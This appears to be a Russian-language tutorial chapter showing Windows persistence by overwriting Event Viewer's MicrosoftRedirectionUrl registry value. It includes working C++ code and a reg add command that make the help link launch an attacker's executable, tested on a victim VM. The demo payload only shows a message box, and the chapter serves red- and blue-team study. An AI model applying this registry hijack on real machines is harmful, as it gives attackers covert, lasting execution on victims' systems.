\newpage
\subsection{80. разработка вредоносного ПО: закрепление (persistence) - часть 14. Ссылка на справку в Event Viewer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через замену ссылки на справку в Windows Event Viewer.     

### ссылка на справку в Event Viewer

Event Viewer в Windows существует уже более десяти лет. Он анализирует ограниченное количество журналов, которые Windows ведет на вашем компьютере. Эти журналы представляют собой текстовые файлы в формате `XML`, содержащие обычный текст.     

{width="80%"}    

В качестве части своего интерфейса Event Viewer предоставляет ссылку на *Event Log Online Help*:    

{width="80%"}    

При нажатии открывается стандартная справочная ссылка Microsoft, которая определена в реестре Windows по адресу `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

{width="80%"}    

Как вы, возможно, догадались, логично предположить, что значение ключа `MicrosoftRedirectionURL` можно изменить в интересах злоумышленника. В этом и заключается трюк.    

### практический пример

Рассмотрим практический пример. Во-первых, как обычно, создадим вредоносное приложение, `meow-meow` "вредоносное ПО" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Затем создаем программу для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста: просто обновляем значение ключа реестра на `file://Z:\2022-10-09-malware-pers-14\hack.exe`.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем "вредоносное ПО":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Проверяем корректность:    

{width="80%"}    

Теперь компилируем скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Проверяем стандартные значения ключей реестра на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

{width="80%"}    

Затем также запускаем на машине жертвы - `Windows 10 x64`:    

```powershell
.\pers.exe
```    

{width="80%"}    

Наконец, снова пробуем нажать на ссылку *Event Log Online Help*:    

{width="80%"}    

{width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

{width="80%"}    

{width="80%"}    

Это означает, что при нажатии на ссылку запускается `mmc.exe`, который, в свою очередь, инициирует вредоносное поведение.    

Для отката, после окончания экспериментов, выполните:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v \
"MicrosoftRedirectionUrl" /t REG_SZ /d \
"http://go.microsoft.com/fwlink/events.asp" /f
```

{width="80%"}    

Или просто восстановите виртуальную машину.     

> Это метод закрепления на уровне администратора, поэтому он работает только при наличии прав администратора.       

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
